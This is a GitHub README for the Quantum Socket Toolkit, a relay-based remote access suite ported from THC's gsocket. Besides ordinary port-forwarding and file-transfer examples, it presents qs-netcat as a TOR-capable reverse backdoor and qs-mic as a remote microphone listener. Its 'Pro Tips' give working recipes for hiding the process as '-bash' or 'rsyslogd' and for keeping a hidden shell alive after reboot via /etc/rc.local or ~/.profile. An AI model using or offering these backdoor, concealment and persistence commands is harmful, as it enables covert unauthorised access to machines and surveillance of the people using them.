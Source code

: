 # Quantum Socket Toolkit
<div align="center">
  <img src=".github/img/banner.png">
  <br>
  <br>


  [![GitHub All Releases][release-img]][release]
  [![Build][workflow-img]][workflow]
  [![Issues][issues-img]][issues]
  ![Docker Pulls][docker-pulls]
  [![License: MIT][license-img]][license]
</div>

[release]: https://github.com/qsocket/qsocket/releases
[release-img]: https://img.shields.io/github/v/release/qsocket/qsocket
[downloads]: https://github.com/qsocket/qsocket/releases
[downloads-img]: https://img.shields.io/github/downloads/qsocket/qsocket/total?logo=github
[issues]: https://github.com/qsocket/qsocket/issues
[issues-img]: https://img.shields.io/github/issues/qsocket/qsocket?color=red
[docker-pulls]: https://img.shields.io/docker/pulls/qsocket/qsocket?logo=docker&label=docker%20pulls
[license]: https://raw.githubusercontent.com/qsocket/qsocket/master/LICENSE
[license-img]: https://img.shields.io/github/license/qsocket/qsocket.svg
[workflow-img]: https://github.com/qsocket/qsocket/actions/workflows/main.yml/badge.svg
[workflow]: https://github.com/qsocket/qsocket/actions/workflows/main.yml
[qsrn]: https://www.qsocket.io/qsrn/


The Quantum Socket Toolkit allows two system behind NAT/Firewall to establish a TCP/TLS connection with each other. 

The qsocket library locally derives a universally unique identifier (UUID) and connects two devices through the Quantum Socket Relay Network [(QSRN)][qsrn] regardless and independent of the network layers, local IP Address or geographical location. The entire qsocket project is ported from the original **[gsocket](https://github.com/hackerschoice/gsocket) toolkit of THC**. 

## But Why?
So why did you reinvent the wheel? Simply because we wanted our own wheel :) Due to several design choices of THC and the nature of the project we were not comfortable using the GSRN for our own business. So we decided to create our own version to our own liking. We also wanted to modernize the project by porting it to Go/Rust, add new features, more platform support, and scalability.

<div align="center">
  <img src=".github/img/gorust.jpg">
</div>

The Quantum Socket Toolkit comes with a set of tools:
* **qsocket** - Redirects the traffic of an existing program (binary) over the QSRN. It does so by hooking fundamental socket libraries inside libc using LD_PRELOAD method. (Experimental)
* [**qs-netcat**](https://github.com/qsocket/qs-netcat) - Netcat on steroids. Turn netcat into an TLS encrypted reverse backdoor via TOR (optional) with a true PTY/interactive command shell (```qs-netcat -s MySecret -i```), integrated file-transfer, redirect traffic or give somebody temporary shell access.
* [**qs-mic**](https://github.com/qsocket/qs-mic) - Access (record audio) the microphone devices of a remote system. (```qs-mic -s MySecret -d 10```)
* ...many more examples and tools.

## Installation

|     Tool      |                          **Build From Source**                           |                    **Binary Release**                     |
| :-----------: | :----------------------------------------------------------------------: | :-------------------------------------------------------: |
|  **qsocket**  | ```git clone https://github.com/qsocket/qsocket && cd qsocket && make``` |  [Download](https://github.com/qsocket/qsocket/releases)  |
| **qs-netcat** |           ```go install github.com/qsocket/qs-netcat@master```           | [Download](https://github.com/qsocket/qs-netcat/releases) |
|  **qs-mic**   |       ```cargo install --git https://github.com/qsocket/qs-mic```        |  [Download](https://github.com/qsocket/qs-mic/releases)   |
|  **qs-lite**  |       ```cargo install --git https://github.com/qsocket/qs-lite```       |  [Download](https://github.com/qsocket/qs-lite/releases)  |

***Docker Install***

[![Docker](http://dockeri.co/image/qsocket/qsocket)](https://hub.docker.com/r/qsocket/qsocket/)

```bash
docker pull qsocket/qs-netcat
docker run -it qsocket/qs-netcat -h
```


### Supported Platforms
Qsocket toolkit supports 12 platforms on 11 architecture, check **Supported Platforms** below for detailed table.

<details>
<summary>Supported Platforms</summary>

|     Tool      | **Linux** | **Windows** | **Darwin** | **FreeBSD** | **OpenBSD** | **NetBSD** | **Android** | **IOS** | **Solaris** | **Illumos** | **Dragonfly** | **AIX** |
| :-----------: | :-------: | :---------: | ---------- | ----------- | ----------- | ---------- | ----------- | ------- | ----------- | ----------- | ------------- | ------- |
|  **qsocket**  |     ✅     |      ❌      | ✅          | ✅           | ✅           | ✅          | ❌           | ❌       | ❌           | ❌           | ❌             | ❌       |
| **qs-netcat** |     ✅     |      ✅      | ✅          | ✅           | ✅           | ✅          | ✅           | ✅       | ✅           | ✅           | ✅             | ✅       |
|  **qs-lite**  |     ✅     |      ✅      | ✅          | ✅           | ✅           | ✅          | ✅           | ✅       | ✅           | ✅           | ✅             | ✅       |
|  **qs-mic**   |     ✅     |      ✅      | ✅          | ✅           | ✅           | ✅          | ❌           | ❌       | ❌           | ❌           | ❌             | ❌       |
| ~**qs-cam**~  |     🚧     |      🚧      | 🚧          | 🚧           | 🚧           | 🚧          | 🚧           | 🚧       | 🚧           | 🚧           | 🚧             | 🚧       |

</details>

---

## Examples

https://user-images.githubusercontent.com/17179401/224060762-e0f121f6-431b-4eb5-8833-4a5d533003de.mp4

<details>
<summary>RDP connection over QSRN</summary>

https://user-images.githubusercontent.com/17179401/213314447-65ecaf43-89fd-48bd-a242-3345f6baf185.mov

</details>

<details>
<summary>ADB access over QSRN</summary>

https://user-images.githubusercontent.com/17179401/216651601-6ddc8ddf-7248-4c2b-bd77-00f00f773c80.mov

</details>

**Usage:**

- SSH from *Workstation B* to *Workstation A* through any firewall/NAT
```
$ qs-netcat -f "localhost:22" -l  # Workstation A
$ qsocket ssh root@qsocket        # Workstation B
```

- Log in to Workstation A from Workstation B through any firewall/NAT
```
$ qs-netcat -l -i   # Workstation A
$ qs-netcat -i      # Workstation B
```

- Transfer files from *Workstation B* to *Workstation A*
```
$ qs-netcat -q -s MySecret -l > file.txt     # Workstation A
$ qs-netcat -q -s MySecret < file.txt        # Workstation B
```

- Port forward. Access 192.168.6.7:22 on Workstation's A private LAN from Workstation B:
```
$ qs-netcat -l -f 192.168.6.7:22    # Workstation A
$ qs-netcat -f :2222                # Workstation B
```

- In a new terminal on Workstation B execute:
```
ssh -p 2222 root@127.0.0.1        # Will ssh to 192.168.6.7:22 on Workstation's A private LAN
```

- Execute any command (nc -e style) on *Workstation A*
```
$ qs-netcat -l -e "echo hello world; id; exit"   # Workstation A
$ qs-netcat                                      # Workstation B
```

Another example: Spawn a new docker environment deep inside a private network
```
# Start this on a host deep inside a private network
qs-netcat -il -e "docker run --rm -it kalilinux/kali-rolling"
```

Access the docker environment deep inside the private network from anywhere in the world:
```
qs-netcat -i
```
Listen in on a remote computer microphone for 10 seconds
```
$ qs-mic -l -s MySecret           # Workstation A
$ qs-mic -d 10 -s MySecret --play # Workstation B
```
Access entirety of Workstation A's private LAN (Sock4/4a/5 proxy)
```
$ qs-netcat -l -f :22 -s MySecret                                        # Workstation A
$ ssh -D 9090 -o ProxyCommand='qs-netcat -s MySecret' root@doesnotmatter # Workstation B

Access www.google.com via Workstation A's private LAN from your Workstation B:
$ curl --socks4a 127.1:9090 http://www.google.com
```

Mount a remote folder using sshfs and qs-netcat
```
$ qs-netcat -l -f :22 -s MySecret # Workstation A
$ qs-netcat -f :9090 -s MySecret  # Workstation B
$ sudo sshfs -o allow_other,default_permissions -p 9090 root@localhost:/remote_dir /mnt/local_dir # Workstation B
```

**Pro Tips**
- Hide your arguments (argv)

Pass the arguments by environment variable (QS_ARGS) and use a bash-trick to hide qs-netcat binary in the process list:
```
$ export QS_ARGS="-s MySecret -l -i -q"
$ exec -a -bash ./qs-netcat &     # Hide as '-bash'.
$ ps alxww | grep qs-netcat

$ ps alxww | grep -bash
  1001 47255     1   0  26  5  4281168    436 -      SNs    ??    0:00.00 -bash
```

- SSH login to remote workstation
```
# On the remote workstation execute:
qs-netcat -s MySecret -l -f 192.168.6.7:22
```
or
```
# Access 192.168.6.7 via ssh on the remote network from your workstation:
ssh -o ProxyCommand='qs-netcat -q -s MySecret' root@doesnotmatter
```

- Retain access after reboot
The easiest way to retain access to a remote system is by using [the automated deploy script](https://github.com/qsocket/qs-deploy). Alternatively the following can be used to achieve the same:
Combine what you have learned so far and make your backdoor restart after reboot (and as a hidden service obfuscated as *rsyslogd*). Use any of the start-up scripts, such as */etc/rc.local*:
```
$ cat /etc/rc.local
#! /bin/sh -e

QS_ARGS="-s MySecret -l -i -q" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /usr/local/bin/qs-netcat"

exit 0
```
Not all environment variables are set during system bootup. Set some variables to make the backdoor more enjoyable: *TERM=xterm-256color* and *SHELL=/bin/bash* and *HOME=/root*. The startup script (*/etc/rc.local*) uses */bin/sh* which does not support our *exec -a* trick. Thus we use */bin/sh* to start */bin/bash* which in turn does the *exec -a* trick and starts *qs-netcat*. Puh. The qs-netcat process is hidden (as *rsyslogd*) from the process list. Read [how to enable rc.local](https://linuxmedium.com/how-to-enable-etc-rc-local-with-systemd-on-ubuntu-20-04/) if */etc/rc.local* does not exist.  

Alternatively install qs-netcat as a [systemd service](examples/systemd-root-shell).

Alternativly and if you do not have root privileges then just append the following line to the user's *~/.profile* file. This will start qs-netcat (if it is not already running) the next time the user logs in. There are [many other ways to restart a reverse shell after system reboot](https://www.qsocket.io/deploy):
```
killall -0 qs-netcat 2>/dev/null || (QS_ARGS="-s MySecret -l -i -q" SHELL=/bin/bash exec -a -bash /usr/local/bin/qs-netcat)
```
---
**Crypto / Security Mumble Jumble**
- The connections are **NOT** end-2-end encrypted. This means the operators of the QSRN are able to see the flowing traffic. **But** you can always use your own encryption, QSRN is just a relay network.
- The session key is 128 bit digest of the given secret.
- A brute force attack against a weak secrets requires a new TCP connection for every guess. But QSRN contains a strong load balancer which is limiting the consecutive connection attempts.
- Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use *qs-netcat -g* to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
- If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
- Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice.

---

```
If gs-netcat is a germanic battle axe... than qs-netcat is a turkish döner knife ᕕ(⌐■_■)ᕗ ♪♬ 
```